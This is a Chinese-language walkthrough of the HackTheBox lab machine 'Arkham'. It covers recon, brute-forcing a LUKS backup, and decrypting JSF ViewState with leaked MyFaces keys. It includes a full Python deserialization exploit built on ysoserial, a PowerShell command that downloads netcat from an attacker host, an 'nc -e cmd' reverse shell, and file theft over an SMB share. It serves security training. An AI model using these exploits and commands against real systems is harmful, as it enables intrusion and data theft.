# 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.130 -oA scans/ports
...
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
8080/tcp  open  http-proxy
49666/tcp open  unknown
49667/tcp open  unknown
...
root@kali# nmap -sT -sC -sV -O -p80,135,139,445,8080 10.10.10.11 -oA scans/details
...
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8080/tcp open  http          Apache Tomcat 8.5.37
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-title: Mask Inc.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -9m03s, deviation: 0s, median: -9m03s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-03-16 15:09:28
|_  start_date: N/A
...
```

## Website - TCP 80



为 IIS 默认界面

## Website - TCP 8080


页面显示这是一家名为 Mask 的公司，主要业务为数据保护。

## 目录FUZZ

### TCP-80

```
root@kali# gobuster -u http://10.10.10.130 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
...
2024/05/12 15:13:15 Starting gobuster
=====================================================
=====================================================
2024/05/12 15:17:01 Finished
...
```

没有扫描到什么有价值的目录

### TCP-8080

```
root@kali# gobuster -u http://10.10.10.130:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
...
=====================================================
/images (Status: 302)
/css (Status: 302)
/js (Status: 302)
/fonts (Status: 302)
=====================================================
...
```

也没有发现什么有用的目录，查看网站可以在订阅中发现一个交互点.`http://10.10.10.130:8080/userSubscribe.faces`


输入 mac 会给你一个返回信息



## SMB - TCP 445

使用 smbclient 查看当前共享

```
root@kali# smbclient -N -L //10.10.10.130
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        BatShare        Disk      Master Wayne's secrets
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk
```

也可以使用 smbmap 进行扫描，但是获取到的信息并没有很多

```
root@kali# smbmap -H 10.10.10.130
[+] IP: 10.10.10.130:445        Name: 10.10.10.130                                      
        Disk                                                    Permissions
        ----                                                    -----------
```

查看 Users 共享,BatShare 共享

```
root@kali# smbclient -N //10.10.10.130/users
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Sun Feb  3 08:24:10 2019
  ..                                 DR        0  Sun Feb  3 08:24:10 2019
  Default                           DHR        0  Thu Jan 31 21:49:06 2019
  desktop.ini                       AHS      174  Sat Sep 15 03:16:48 2018
  Guest                               D        0  Sun Feb  3 08:24:19 2019
root@kali# smbclient -N //10.10.10.130/batshare
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Feb  3 08:00:10 2019
  ..                                  D        0  Sun Feb  3 08:00:10 2019
  appserver.zip                       A  4046695  Fri Feb  1 01:13:37 2019

                5158399 blocks of size 4096. 2108668 blocks available
smb: \> get appserver.zip
getting file \appserver.zip of size 4046695 as appserver.zip (1078.9 KiloBytes/sec) (average 1078.9 KiloBytes/sec)
```

Users 中只存放了一些默认用户和访客用户的文件，而 BatShare 中包含了一个压缩包appserver.zip同时将其下载下来.

## LUKS Image

解压zip,其中包含一个文本和一个加密的磁盘映像.

```
root@kali# unzip appserver.zip
Archive:  appserver.zip
  inflating: IMPORTANT.txt
  inflating: backup.img
root@kali# cat IMPORTANT.txt
Alfred, this is the backup image from our linux server. Please see that The Joker or anyone else doesn't have unauthenticated access to it. - Bruce                                                                        
root@kali# file backup.img
backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: d931ebb1-5edc-4453-8ab1-3d23bb85b38e
```

> Alfred, this is the backup image from our linux server. Please see that The Joker or anyone else doesn't have unauthenticated access to it. - Bruce                                                                        
> 
> Alfred，这是我们linux服务器的备份映像。请注意，小丑或其他任何人都没有未经验证的访问权限。-布鲁斯

### 暴力破解 Luks 密码

> LUKS（Linux 统一密钥设置(Linux Unified Key Setup)）是一个用于Linux系统上磁盘加密的标准。Luks允许用户在硬盘或分区级别上加密数据，并且只有在提供了正确的解密密钥后才能访问数据。使用 ***<u>bruteforce-luks</u>*** 对密码进行爆破.

```
root@kali# grep batman /usr/share/wordlists/rockyou.txt >  test.txt
root@kali# apt install bruteforce-luks
root@kali# bruteforce-luks -t 10 -f test.txt backup.img -v 60
...
Tried passwords: 40
Tried passwords per second: 1.333333
Last tried password: batman27

Tried passwords: 60
Tried passwords per second: 1.395349
Last tried password: batman82

Password found: batmanforever
```

> -t 10   使用 10 个线程
> 
> -f test.txt  要尝试的密码列表
> 
> -v 60  每 60 秒打印一次进度

成功跑出密码为：batmanforver

### Mount

使用 cryptsetup 打开文件

> Cryptsetup 是一个用于管理 Linux 系统上加密设备的命令行工具。它是基于 Device Mapper（设备映射）技术的，能够与 LUKS（Linux Unified Key Setup）卷、TrueCrypt 和 dm-crypt 等加密技术进行交互。

```
root@kali# cryptsetup open --type luks backup.img arkham
Enter passphrase for backup.img:
```

完成后，屏幕上不会显示任何内容，但有一个新设备可用，查看驱动发现一个新设备

```
root@kali# ls -l /dev/mapper/
total 0
lrwxrwxrwx 1 root root       7 Aug  5 02:11 arkham -> ../dm-0
crw------- 1 root root 10, 236 Aug  5 02:11 control
```

挂载新设备到 arkham 目录下

```
root@kali# mount /dev/mapper/arkham /mnt/arkham/
root@kali# ls /mnt/arkham/
lost+found  Mask
```

### 文件枚举

```
root@kali# find /mnt/arkham/ -type f
/mnt/arkham/Mask/robin.jpeg
/mnt/arkham/Mask/docs/Batman-Begins.pdf
/mnt/arkham/Mask/me.jpg
/mnt/arkham/Mask/joker.png
/mnt/arkham/Mask/tomcat-stuff/web.xml.bak
/mnt/arkham/Mask/tomcat-stuff/web.xml
/mnt/arkham/Mask/tomcat-stuff/server.xml
/mnt/arkham/Mask/tomcat-stuff/tomcat-users.xml
/mnt/arkham/Mask/tomcat-stuff/jaspic-providers.xml
/mnt/arkham/Mask/tomcat-stuff/context.xml
/mnt/arkham/Mask/tomcat-stuff/faces-config.xml
/mnt/arkham/Mask/tomcat-stuff/MANIFEST.MF
/mnt/arkham/Mask/mycar.jpg
```

其中包括蝙蝠侠的图片和 tomcat-stuff 文件夹，通过对其中各个文件的筛查，我们在 web.xml.bak 中发现了有趣的东西。


```
 1 <?xml version="1.0" encoding="UTF-8"?>
 ...
 14 <servlet>
 15 <servlet-name>Faces Servlet</servlet-name>
 16 <servlet-class>javax.faces.webapp.FacesServlet</servlet-class>
 17 <load-on-startup>1</load-on-startup>
 18 </servlet>
 19 <servlet-mapping>
 20 <servlet-name>Faces Servlet</servlet-name>
 21 <url-pattern>*.faces</url-pattern>
 22 </servlet-mapping>
 23 <context-param>
 24 <param-name>javax.servlet.jsp.jstl.fmt.localizationContext</param-name>
 25 <param-value>resources.application</param-value>
 26 </context-param>
 27 <context-param>
 28 <description>State saving method: 'client' or 'server' (=default). See JSF Specification 2.5.2</description>
 29 <param-name>javax.faces.STATE_SAVING_METHOD</param-name>
 30 <param-value>server</param-value>
 31 </context-param>
 32 <context-param>
 33 <param-name>org.apache.myfaces.SECRET</param-name>
 34 <param-value>SnNGOTg3Ni0=</param-value>
 35 </context-param>
 36     <context-param>
 37         <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
 38         <param-value>HmacSHA1</param-value>
 39      </context-param>
 40 <context-param>
 41 <param-name>org.apache.myfaces.MAC_SECRET</param-name>
 42 <param-value>SnNGOTg3Ni0=</param-value>
 43 </context-param>
 ...
```

根据以上配置文件我们可以得到以下信息

- JSF 版本为 2.5.2
- 该站点会匹配 *.faces 来调用 servlet
- myfaces 的 SECRET 为 SnNGOTg3Ni0=，HmacSHA1 的 SECRET 为 SnNGOTg3Ni0=，SnNGOTg3Ni0= 经过解码后为 JsF9876-

# 漏洞利用与检测

## JSF ViewState反序列化漏洞

> JSF 框架主要使用序列化来保持站点的状态，它会帮助服务器序列化一个 Java 对象，并将其作为网页中的隐藏字段发送到客户端，当客户端提交时该序列化对象被发送回服务器，服务器可以使用它来取回状态。反序列化漏洞是允许用户提交序列化对象，如果序列化对象包含恶意代码，那么在反序列化过程中就会运行。从而用户可以控制输入来获取执行权限。

如何验证是否存在ViewState反序列化漏洞？

> 1、测试**提交错误的 ViewState** 会发生什么？
2、**解密 ViewState** 变量来显示我的加密密钥有效
3、**构建脚本加密好的 ViewState** 并进行提交
4、使用** ysoserial **来生成 payload，它可以使用脚本中的 ViewState 来 ping 主机
5、更新 payload 获取**反弹shell**

找到之前的订阅栏目，使用 BurpSuite 将数据包拦截，具体数据包如下

```
POST /userSubscribe.faces HTTP/1.1
Host: 10.10.10.130:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.130:8080/userSubscribe.faces
Content-Type: application/x-www-form-urlencoded
Content-Length: 261
Cookie: JSESSIONID=D8A54B3871DBBA43CBCBA95A59D6F643
Connection: close
Upgrade-Insecure-Requests: 1

j_id_jsp_1623871077_1%3Aemail=0xdf&j_id_jsp_1623871077_1%3Asubmit=SIGN+UP&j_id_jsp_1623871077_1_SUBMIT=1&
javax.faces.ViewState=wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RXtNO1NI%2FGme70KtDtngjDm0mNzA9qHjYerxo
0jW7zu1DWIHlJqY3Fedt5UA7dKm1%2FZ7jZk%3D
```

将 javax.faces.ViewState 参数的值的第一个字符从 w 字符修改为 W 字符，查看页面报错信息



## ViewState解码

我们可以抓取到 javax.faces.ViewState 参数的值如下

```
javax.faces.ViewState=wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0j
W7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D
```

通过 python 代码来获取其中的字节流

```
from base64 import b64decode
from urllib.parse import unquote_plus as urldecode

vs = 'wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D'
vs_urldecode = urldecode(vs)
print(vs_urldecode)
vs_bs64decode = b64decode(vs_urldecode)
print(vs_bs64decode)
```



这是加密的字节流，我们需要通过解密来获取其中的信息。SHA1的长度通常为20字节，很可能附加到首位或末尾。经过测试 HMAC 存储在最后20字节中

```
from base64 import b64decode
from urllib.parse import unquote_plus as urldecode
from hashlib import sha1  # 导入 hashlib 模块中的 sha1 哈希函数
import hmac  # 导入 hmac 模块，用于计算 HMAC

vs = 'wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D'
vs_urldecode = urldecode(vs)  # 对字符串进行 URL 解码
vs_bs64decode = b64decode(vs_urldecode)  # 对 URL 解码后的字符串进行 Base64 解码
mac = vs_bs64decode[-20:]  # 获取数据的 MAC（消息验证码）
enc = vs_bs64decode[:-20]  # 获取数据的内容
enc_hmac = hmac.new(b'JsF9876-', enc, sha1).digest()  # 计算数据内容的 HMAC（基于哈希的消息认证码）
print(mac)  # 输出数据的 MAC（消息验证码）
print(enc_hmac)  # 输出计算得到的数据内容的 HMAC
```



目前已知加密方式、加密位置以及密钥，接下来就可以解密这串值

```
from base64 import b64decode
from urllib.parse import unquote_plus as urldecode
from Crypto.Cipher import DES  # 导入 Crypto.Cipher 模块中的 DES 加密算法

vs = 'wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D'
vs_urldecode = urldecode(vs)
vs_bs64decode = b64decode(vs_urldecode)
enc = vs_bs64decode[:-20]   # 获取数据的密文（除了最后 20 个字节之外的部分）
d = DES.new(b'JsF9876-', DES.MODE_ECB)  # 使用 DES 算法和 ECB 模式创建一个 DES 对象，用于解密
print(d.decrypt(enc))
```


经过解密后出现字符串说明解密确实是正确的.

## ysoserial

> ysoserial是一个用于生成java反序列化有效负载的项目。最早在2015年Marshalling Pickles: how deserializing objects will destroy your会议上提出的一个工具，该工具包含各种java反序列化利用链，可直接生成序列化数据文件，也可通过交互式开启各种服务。总之，提到java反序列化一定会有ysoserial工具的出现，通过该工具直接快速生成java反序列化漏洞的有效负载.
> 
> 下载链接：https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar

使用 ysoserial 来生成 ping 命令的 payload。

```
java -jar ./ysoserial.jar BeanShell1 'ping 10.10.14.14' > text
```



生成成功，但是我需要将其放入 python 脚本当中进行调用.

安装模块 pip install pycryptodome.

```
import requests
import subprocess
import sys
from base64 import b64encode
from Crypto.Cipher import DES
from Crypto.Hash import SHA, HMAC
from os import devnull
from urllib.parse import quote_plus as urlencode


with open(devnull, 'w') as null:
    payload = subprocess.check_output(['java', '-jar', '/root/hackthebox/Machines/Arkham/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar', sys.argv[1], sys.argv[2]], stderr=null)

pad = (8 - (len(payload) % 8)) % 8
padded = payload + (chr(pad)*pad).encode()

d = DES.new(b'JsF9876-', DES.MODE_ECB)
enc_payload = d.encrypt(padded)
sig = HMAC.new(b'JsF9876-', enc_payload, SHA).digest()
viewstate = b64encode(enc_payload + sig)

sess = requests.session()
sess.get('http://10.10.10.130:8080/userSubscribe.faces')
resp = sess.post('http://10.10.10.130:8080/userSubscribe.faces',
        data = {'j_id_jsp_1623871077_1%3Aemail': 'd',
                'j_id_jsp_1623871077_1%3Asubmit': 'SIGN+UP',
                'j_id_jsp_1623871077_1_SUBMIT': '1',
                'javax.faces.ViewState': viewstate})
```

启动本地监听

```
tcpdump -i tun0 icmp
```

使用脚本执行 ping 命令

```
python3 exploit.py BeanShell1 'ping 10.10.14.14'
```

```
root@kali# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
16:27:33.898247 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 1, length 40
16:27:33.898266 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 1, length 40
16:27:34.910181 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 2, length 40
16:27:34.910199 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 2, length 40
16:27:35.925949 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 3, length 40
16:27:35.925964 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 3, length 40
16:27:36.938872 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 4, length 40
16:27:36.938903 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 4, length 40
```

成功收到 ping 命令，反序列化漏洞验证成功

## 获取shell

为了获取目标站点的shell，我们把 nc64.exe 放在本目录下并开启 http 服务

```
python -m SimpleHTTPServer 80
```

在本地开启监听，接收反弹shell

```
 nc -nvlp 443
```

这里需要在 exploit.py 进行略微修改，源码如下

```
#!/usr/bin/env python3

import requests
import subprocess
import sys
from base64 import b64encode
from Crypto.Cipher import DES
from Crypto.Hash import SHA, HMAC
from os import devnull
from urllib.parse import quote_plus as urlencode


with open(devnull, 'w') as null:
    payload = subprocess.check_output(['java', '-jar', '/root/hackthebox/Machines/Arkham/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar', 'CommonsCollections5', sys.argv[1]], stderr=null)

pad = (8 - (len(payload) % 8)) % 8
padded = payload + (chr(pad)*pad).encode()

d = DES.new(b'JsF9876-', DES.MODE_ECB)
enc_payload = d.encrypt(padded)
sig = HMAC.new(b'JsF9876-', enc_payload, SHA).digest()
viewstate = b64encode(enc_payload + sig)

sess = requests.session()
sess.get('http://10.10.10.130:8080/userSubscribe.faces')
resp = sess.post('http://10.10.10.130:8080/userSubscribe.faces',
        data = {'j_id_jsp_1623871077_1%3Aemail': 'd',
                'j_id_jsp_1623871077_1%3Asubmit': 'SIGN+UP',
                'j_id_jsp_1623871077_1_SUBMIT': '1',
                'javax.faces.ViewState': viewstate})
```

执行以下命令上传 nc 并使用 nc 连接本地443端口

```
python3 exploit2.py "powershell -c Invoke-Webrequest -uri 'http://10.10.14.14/nc64.exe' -outfile \windows\system32\spool\drivers\color\nc.exe"
python3 exploit2.py "\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.14 443"
```

```
root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.130.
Ncat: Connection from 10.10.10.130:49720.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```

成功收到反弹shell，在当前用户的桌面上找到第一个flag.

# 权限提升

## 获得密码

在主目录下枚举关键文件

```
C:\>dir /s /b /a:-d-h \Users\alfred | findstr /i /v "appdata"
dir /s /b /a:-d-h \Users\alfred | findstr /i /v "appdata"
C:\Users\alfred\Desktop\user.txt
C:\Users\alfred\Documents\tomcat.bat
C:\Users\alfred\Downloads\backups\backup.zip
C:\Users\alfred\Favorites\Bing.url
C:\Users\alfred\Links\Desktop.lnk
C:\Users\alfred\Links\Downloads.lnk
```

> dir: 这个命令用于列出指定目录下的文件和子目录。
> 
> /s: 这个选项告诉 dir 命令**递归地搜索子目录**。
> 
> /b: 这个选项告诉 dir 命令**只输出文件名或目录名**，不显示任何其他信息。
> 
> /a:-d-h: 这个选项告诉 dir 命令**只列出非隐藏的文件和非隐藏的目录**。-d 表示仅列出目录，-h 表示仅列出非隐藏的文件。
> 
> \Users\alfred: 这是指定的目录路径，表示要在 C:\Users\alfred 目录下进行搜索。
> 
> |: 这是管道符号，用于将一个命令的输出传递给另一个命令。
> 
> findstr: 这个命令用于搜索字符串。
> 
> /i: 这个选项告诉 findstr 命令在搜索时**不区分大小写**。
> 
> /v: 这个选项告诉 findstr 命令**显示不匹配的行**。
> 
> "appdata": 这是要搜索的字符串，findstr 将排除包含此字符串的行。
> 
> 在 C:\Users\alfred 目录及其所有子目录中，列出所有非隐藏文件和目录的绝对路径，但不包括隐藏的文件和目录，同时排除包含字符串 "appdata" 的行。

发现 backup.zip，我们需要将其下载到本地。

```
C:\>net use \\10.10.14.11\share
System error 1272 has occurred.

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network. 
```

借助 smbserver 来建立 smb 共享，同时设置账号密码，否则无法连接.

```
python3 smbserver.py -smb2support -username mac -password mac share .
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

> smbserver.py:Impacket中的一个工具。
> 
> lmpacket教程：https://cloud.tencent.com/developer/article/1937036
> 
> Impacket是用于处理网络协议的Python类的集合，用于对SMB1-3或IPv4 / IPv6 上的TCP、UDP、ICMP、IGMP，ARP，IPv4，IPv6，SMB，MSRPC，NTLM，Kerberos，WMI，LDAP等协议进行低级编程访问。数据包可以从头开始构建，也可以从原始数据中解析，而面向对象的API使处理协议的深层次结构变得简单。
> 
> smbserver.py：SMB服务器的Python实现，允许快速设置共享和用户帐户。

然后连接：

```
C:\>net use \\10.10.14.11\share /u:mac mac
The command completed successfully.
```

并将文件复制到我的 Kali 中：

```
copy C:\Users\Alfred\Downloads\backups\backup.zip \\10.10.14.14\share\
        1 file(s) copied.
```

解压该文件，里面包含一个 ost 文件，是 Microsoft Outlook 的脱机文件夹文件

```
root@kali# unzip -l backup.zip 
Archive:  backup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
 16818176  2019-02-02 18:00   alfred@arkham.local.ost
---------                     -------
 16818176                     1 file
```

readpst是一个从 Linux 解析文件的工具，该工具可以用来解析.pst、.ost文件

> Outlook数据提取工具readpst:Outlook是Windows常用的邮件客户端。它将用户的信息保存到.pst文件中，如邮件、约会、日历、联系人等信息。为了便于查看这些信息，Kali Linux内置了一款专用工具集readpst。该工具集可以将.pst文件中的数据提取保存为文本形式mbox。在提取的时候，渗透测试人员按照邮件内容，分目录进行保存。同时，该工具集还可以将数据导出为LDAP专用的.ldif格式和Summation专用的DII格式，便于后期数据的分析。

```
root@kali# readpst alfred@arkham.local.ost 
Opening PST file and indexes...
Processing Folder "Deleted Items"
Processing Folder "Inbox"
Processing Folder "Outbox"
Processing Folder "Sent Items"
Processing Folder "Calendar"
Processing Folder "Contacts"
Processing Folder "Conversation Action Settings"
Processing Folder "Drafts"
Processing Folder "Journal"
Processing Folder "Junk E-Mail"
Processing Folder "Notes"
Processing Folder "Tasks"
Processing Folder "Sync Issues"
        "Inbox" - 0 items done, 7 items skipped.
Processing Folder "RSS Feeds"
Processing Folder "Quick Step Settings"
        "alfred@arkham.local.ost" - 15 items done, 0 items skipped.
        "Calendar" - 0 items done, 3 items skipped.
Processing Folder "Conflicts"
Processing Folder "Local Failures"
Processing Folder "Server Failures"
        "Sync Issues" - 3 items done, 0 items skipped.
        "Drafts" - 1 items done, 0 items skipped.
```

这将创建五个文件，但仅不为空：Drafts.mbox

```
-rwxrwx--- 1 root vboxsf     0 Aug  7 02:03 alfred@arkham.local.ost.calendar
-rwxrwx--- 1 root vboxsf     0 Aug  7 02:03 alfred@arkham.local.ost.contacts
-rwxrwx--- 1 root vboxsf     0 Aug  7 02:03 alfred@arkham.local.ost.journal
-rwxrwx--- 1 root vboxsf     0 Aug  7 02:03 alfred@arkham.local.ost.mbox
-rwxrwx--- 1 root vboxsf 51857 Aug  7 02:03 Drafts.mbox
```

解压完成是一个.mbox文件，这是一种电子邮件邮箱文件格式，可在单个文件中存储多条消息并将其作为文本。使用 mutt 来打开它.

```
mutt -R -f Drafts.mbox
```

